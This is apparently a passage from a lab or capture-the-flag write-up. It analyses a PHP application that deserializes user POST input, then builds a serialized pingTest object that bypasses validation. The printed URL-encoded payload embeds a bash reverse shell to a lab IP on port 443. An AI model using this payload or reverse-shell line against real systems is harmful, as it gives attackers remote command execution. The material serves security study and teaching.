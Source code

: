 
**Code Structure Analysis**:

1. **Class Definition**: `pingTest` class with properties for IP address, validity flag, and output
2. **Validation Method**: `validate()` function checks IP validity before executing ping
3. **Ping Execution**: `ping()` method executes system ping command
4. **Deserialization**: User-controlled `$_POST['obj']` is directly deserialized
5. **Execution Flow**: Deserialized object's `validate()` method is called

**Vulnerability Assessment**: The application blindly trusts user input and deserializes it without any validation, allowing for object manipulation and potential code execution.

## Exploitation

### Payload Development

The vulnerability can be exploited by crafting a malicious serialized object that bypasses the validation checks:

![Payload Development](images/Pasted%20image%2020250802183526.png)

**Exploit Strategy**:

1. Create a malicious `pingTest` object with a reverse shell payload in the `ipAddress` field
2. Set the `isValid` property to `true` to bypass validation
3. Serialize and URL-encode the malicious object

### Payload Serialization

The malicious object was serialized using a custom PHP script:

```bash
php serialize.php; echo
```

**Serialized Payload Output**:

```
O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A55%3A%22%3B+bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.56.102%2F443+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D
```

